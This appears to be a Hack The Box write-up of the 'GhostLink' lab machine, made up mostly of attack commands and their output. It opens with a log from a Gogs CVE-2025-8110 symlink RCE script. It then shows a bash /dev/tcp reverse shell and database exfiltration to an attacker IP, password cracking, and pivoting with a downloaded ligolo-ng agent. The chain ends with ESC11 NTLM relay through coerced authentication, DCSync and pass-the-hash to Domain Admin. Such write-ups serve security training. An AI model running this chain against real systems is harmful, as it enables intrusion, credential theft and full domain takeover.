▒  ▒▒▒▒▒▒▒▒  ▒▒▒▒  ▒▒  ▒▒▒▒▒▒▒▒  ▒▒▒▒▒▒▒▒▒▒▒▒▒▒  ▒▒▒▒  ▒▒  ▒▒▒▒  ▒▒  ▒▒▒▒▒▒▒
▓  ▓▓▓   ▓▓  ▓▓▓▓  ▓▓  ▓▓▓   ▓▓▓      ▓▓▓▓▓▓▓▓▓       ▓▓▓  ▓▓▓▓▓▓▓▓      ▓▓▓
█  ████  ██  ████  ██  ████  ████████  ████████  ███  ███  ████  ██  ███████
██      ████      ████      ████      █████████  ████  ███      ███        █
  CVE-2025-8110  |  Gogs <= 0.13.3  |  Symlink RCE
[*] Made by: kayl22
[*] Github: https://github.com/kayl22

  Target    : http://gpz-op26-toolkits.ghostlink.htb
  SSH Target: gpz-op26-toolkits.ghostlink.htb:22
  Username  : vroth
  Password  : mOo03jpsqx8JQYMBwvFP
  Repo      : 75k7lvco
  Callback  : 10.10.14.145:9001
  [!] Using provided credentials — registration will be skipped

══ Step 1 — Register account ══
  [*] Skipping registration — using provided credentials

══ Step 2 — Authenticate ══
  [*] Logging in as 'vroth'
.....SNIP.....

══ Step 3 — Obtain API token ══
  [*] Navigating to token settings page
  [D] GET /user/settings/applications -> 200
.....SNIP.....

══ Step 4 — Create exploit repository ══
  [*] Creating repository '75k7lvco' (auto_init=true)
.....SNIP.....

══ Step 5 — Push malicious symlink ══
  [*] Cloning repository to /tmp/75k7lvco
.....SNIP.....
  [+] Confirmed: malicious_link is a symlink pointing to '.git/config'

══ Step 6 — Write malicious .git/config via PutContents API ══
  [*] Reverse shell command: bash -c 'bash -i >& /dev/tcp/10.10.14.145/9001 0>&1' #
.....SNIP.....
```

`python3` is absent; stabilize the shell with `script`:

```console
git@gpz-op26-toolkits:~$ script /dev/null -c bash
git@gpz-op26-toolkits:~$ ^Z
[1]  + 2376 suspended  nc -lnvp 9001
❯ stty raw -echo; fg
git@gpz-op26-toolkits:~$ export TERM=xterm-256color
git@gpz-op26-toolkits:~$ exec /bin/bash
```

The Gogs database is present at `/opt/gogs/data/gogs.db`.  
To exfiltrate it, start a listener:

```console
❯ nc -lp 9999 > gogs.db
```

Send it with TCP redirection in bash:

```console
$ cat gogs.db > /dev/tcp/10.10.14.145/9999
```

Retrieve the hashes and crack:

```console
❯ sqlite3 gogs.db "SELECT name||':'||hex(salt)||':'||passwd||':pbkdf2\$10000\$50' FROM user;" | python3 gitea2john.py > hashes
❯ john --wordlist=/opt/wordlists/rockyou.txt hashes
```

It takes a while to crack:

```text
nvirelli:u47YUclrDiwWxBheaSzI
```

The same credentials can be reused on `gpz-op26-toolkits` to obtain the user flag.

```console
git@gpz-op26-toolkits:~$ su nvirelli
Password: u47YUclrDiwWxBheaSzI
```

```console
nvirelli@gpz-op26-toolkits:~$ id
uid=1001(nvirelli) gid=1001(nvirelli) groups=1001(nvirelli)
nvirelli@gpz-op26-toolkits:~$ cat user.txt
HTB{gh0st_l1nk_1n_th3_sh3ll!}
```

## Exposing Hyper-V subnet with Ligolo-ng

`nvirelli:u47YUclrDiwWxBheaSzI` is also valid on the domain:

```console
❯ nxc smb dc01.ghostlink.htb -d ghostlink.htb -u nvirelli -p u47YUclrDiwWxBheaSzI
SMB         10.129.238.246  445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:ghostlink.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.238.246  445    DC01             [+] ghostlink.htb\nvirelli:u47YUclrDiwWxBheaSzI 
```

CA enumeration failed because the CA is on 172.16.20.10 - an internal IP address.

```console
❯ certipy find -u nvirelli -p u47YUclrDiwWxBheaSzI -dc-ip 10.129.238.246 -stdout -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'ghostlink-GPZ-OP26-SECURE-CA' via RRP
[-] Failed to connect to remote registry: [Errno Connection error (172.16.20.10:445)] timed out
[-] Use -debug to print a stacktrace
[!] Failed to get CA configuration for 'ghostlink-GPZ-OP26-SECURE-CA' via RRP: 'NoneType' object has no attribute 'request'
[!] Use -debug to print a stacktrace
[!] Could not retrieve configuration for 'ghostlink-GPZ-OP26-SECURE-CA'
[*] Checking web enrollment for CA 'ghostlink-GPZ-OP26-SECURE-CA' @ 'gpz-op26-secure.ghostlink.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : ghostlink-GPZ-OP26-SECURE-CA
    DNS Name                            : gpz-op26-secure.ghostlink.htb
    Certificate Subject                 : CN=ghostlink-GPZ-OP26-SECURE-CA, DC=ghostlink, DC=htb
    Certificate Serial Number           : 3F4302F3D68A6AAE4B792DB93F31CCE5
    Certificate Validity Start          : 2026-03-03 16:52:14+00:00
    Certificate Validity End            : 2126-03-03 17:02:12+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
    Active Policy                       : Unknown
    Disabled Extensions                 : Unknown
Certificate Templates                   : [!] Could not find any certificate templates
```

To expose the internal Hyper-V subnet (172.16.20.0/24), `ligolo-ng` can be utilized:

```console
❯ sudo ./proxy -selfcert
```

Detonate the agent binary on `gpz-op26-toolkits` and reach out to tun0:

```console
nvirelli@gpz-op26-toolkits:~$ wget 10.10.14.145/agent
nvirelli@gpz-op26-toolkits:~$ chmod +x agent 
nvirelli@gpz-op26-toolkits:~$ ./agent -connect 10.10.14.145:11601 -ignore-cert
```

Use the `autoroute` feature once the agent connection is received:

```console
ligolo-ng » INFO[0067] Agent joined.                                 id=aa147f5b-d0c4-4b26-901c-35588b2c1799 name=nvirelli@gpz-op26-toolkits.ghostlink.htb remote="10.129.238.246:49814"
ligolo-ng » session
? Specify a session : 1 - nvirelli@gpz-op26-toolkits.ghostlink.htb - 10.129.238.246:49814 - aa147f5b-d0c4-4b26-901c-35588b2c1799
[Agent : nvirelli@gpz-op26-toolkits.ghostlink.htb] » autoroute
? Select routes to add: 172.16.20.20/24
? Create a new interface or use an existing one? Create a new interface
INFO[0123] Generating a random interface name...        
INFO[0123] Creating a new "allowingdust" interface...   
INFO[0123] Using interface allowingdust, creating routes... 
INFO[0123] Route 172.16.20.20/24 created.               
? Start the tunnel? Yes
[Agent : nvirelli@gpz-op26-toolkits.ghostlink.htb] » INFO[0125] Starting tunnel to nvirelli@gpz-op26-toolkits.ghostlink.htb (aa147f5b-d0c4-4b26-901c-35588b2c1799) 
```

The internal ports are now exposed:

```console
❯ nmap -Pn -p 80,445,5985 172.16.20.10

Nmap scan report for 172.16.20.10
Host is up (0.17s latency).

PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

## Coercing DC01 (Server 2025) for ESC11

```console
❯ certipy find -u nvirelli -p u47YUclrDiwWxBheaSzI -dc-ip 10.129.238.246 -stdout -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'ghostlink-GPZ-OP26-SECURE-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'ghostlink-GPZ-OP26-SECURE-CA'
[*] Checking web enrollment for CA 'ghostlink-GPZ-OP26-SECURE-CA' @ 'gpz-op26-secure.ghostlink.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : ghostlink-GPZ-OP26-SECURE-CA
    DNS Name                            : gpz-op26-secure.ghostlink.htb
    Certificate Subject                 : CN=ghostlink-GPZ-OP26-SECURE-CA, DC=ghostlink, DC=htb
    Certificate Serial Number           : 3F4302F3D68A6AAE4B792DB93F31CCE5
    Certificate Validity Start          : 2026-03-03 16:52:14+00:00
    Certificate Validity End            : 2126-03-03 17:02:12+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : GHOSTLINK.HTB\Administrators
      Access Rights
        ManageCa                        : GHOSTLINK.HTB\Administrators
                                          GHOSTLINK.HTB\Domain Admins
                                          GHOSTLINK.HTB\Enterprise Admins
        ManageCertificates              : GHOSTLINK.HTB\Administrators
                                          GHOSTLINK.HTB\Domain Admins
                                          GHOSTLINK.HTB\Enterprise Admins
        Enroll                          : GHOSTLINK.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
      ESC11                             : Encryption is not enforced for ICPR (RPC) requests.
Certificate Templates                   : [!] Could not find any certificate templates
```

The ESC8 discovery is a false positive since EPA is enabled (channel binding is not possible without a TLS layer, but service binding can be enforced on HTTP).  
ESC11, however, can be exploited for privilege escalation:

```console
❯ ntlmrelayx.py -t rpc://172.16.20.10 -rpc-mode ICPR -icpr-ca-name ghostlink-GPZ-OP26-SECURE-CA --template DomainController -debug
```

The `relay` mode in `certipy` is not as reliable as `impacket`'s `ntlmrelayx.py`.

[PetitPotam](https://github.com/topotam/PetitPotam) and [printerbugnew](https://github.com/0xNDI/printerbugnew) failed to coerce authentication on Server 2025, but [Coercer](https://github.com/p0dalirius/coercer) succeeded with `RpcRemoteFindFirstPrinterChangeNotificationEx`:

```console
❯ uv tool install git+https://github.com/p0dalirius/Coercer
❯ coercer coerce -u nvirelli -p u47YUclrDiwWxBheaSzI -d ghostlink.htb --dc-ip 10.129.238.246 -t 10.129.238.246 -l 10.10.14.145 --always-continue
```

The attack was successful:

```console
❯ ntlmrelayx.py -t rpc://172.16.20.10 -rpc-mode ICPR -icpr-ca-name ghostlink-GPZ-OP26-SECURE-CA --template DomainController -debug
Impacket v0.14.0.dev0+20260429.171305.3439d335 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /home/inte/.local/lib/python3.13/site-packages/impacket
[*] Protocol Client RPC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack SMB loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack WINRMS loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Setting up MSSQL Server on port 1433
[*] Setting up RDP Server on port 3389
[*] Multirelay disabled

[*] Servers started, waiting for connections
[+] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[+] Callback added for UUID E1AF8308-5D1F-11C9-91A4-08002B14A0FA V:3.0
[+] (RPC): Received packet of type MSRPC BIND
[+] (RPC): Answering to a BIND without authentication
[+] (RPC): Received packet of type MSRPC REQUEST
[+] (RPC): Sending packet of type MSRPC RESPONSE
[+] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[+] Callback added for UUID E1AF8308-5D1F-11C9-91A4-08002B14A0FA V:3.0
[+] (RPC): Received packet of type MSRPC BIND
[*] (RPC): Received connection from 10.129.238.246, attacking target rpc://172.16.20.10
[+] Connecting to ncacn_ip_tcp:172.16.20.10[135] to determine ICPR stringbinding
[+] ICPR stringbinding is ncacn_ip_tcp:172.16.20.10[60122]
[+] (RPC): Sending packet of type MSRPC BINDACK
[+] (RPC): Received packet of type MSRPC AUTH3
[*] (RPC): Authenticating connection from GHOSTLINK/DC01$@10.129.238.246 against rpc://172.16.20.10 SUCCEED [1]
[+] (RPC): Sending packet of type MSRPC FAULT
[+] (RPC): Received packet of type MSRPC REQUEST
[+] (RPC): Sending packet of type MSRPC FAULT
[+] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Generating a CSR for user DC01$ and template DomainController
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Generating CSR...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> CSR generated!
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Getting certificate...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Successfully requested certificate
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Request ID is 11
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Writing PKCS#12 certificate to ./DC01.pfx
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Certificate successfully written to file
```

Alternatively, [DFSCoerce](https://github.com/Wh04m1001/DFSCoerce) could have been used with [patched certipy](https://github.com/ly4k/Certipy/pull/364).  
`DC01.pfx` can be used for PKINIT authentication and UnPAC-the-hash:

```console
❯ certipy auth -pfx DC01.pfx -dc-ip 10.129.238.246 -username DC01$ -domain ghostlink.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'dc01.ghostlink.htb'
[*]     Security Extension SID: 'S-1-5-21-3426459382-1936297842-2312468024-1000'
[*] Using principal: 'dc01$@ghostlink.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@ghostlink.htb': aad3b435b51404eeaad3b435b51404ee:f09e86e9b9c7e94f2fabaa9e31757e50
```

Perform DCSync with the domain controller's NThash:

```console
❯ secretsdump.py ghostlink.htb/'DC01$'@dc01.ghostlink.htb -hashes :f09e86e9b9c7e94f2fabaa9e31757e50 -just-dc-user Administrator
Impacket v0.14.0.dev0+20260429.171305.3439d335 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8190e067f478002ddd63eb209b016696:::
-----SNIP-----
```

Obtain a privileged shell with the Administrator's NThash:

```console
❯ wget https://raw.githubusercontent.com/ozelis/winrmexec/refs/heads/main/winrmexec.py
❯ python3 winrmexec.py ghostlink.htb/Administrator@DC01.ghostlink.htb -hashes :8190e067f478002ddd63eb209b016696
Impacket v0.14.0.dev0+20260429.171305.3439d335 - Copyright Fortra, LLC and its affiliated companies 

[*] '-target_ip' not specified, using DC01.ghostlink.htb
[*] '-port' not specified, using 5985
[*] '-url' not specified, using http://DC01.ghostlink.htb:5985/wsman
PS C:\Users\Administrator\Documents> whoami
ghostlink\administrator
PS C:\Users\Administrator\Documents> cat ..\Desktop\root.txt
HTB{y0u_l00k_l1ke_y0uve_seen_4_gh0st!}
```
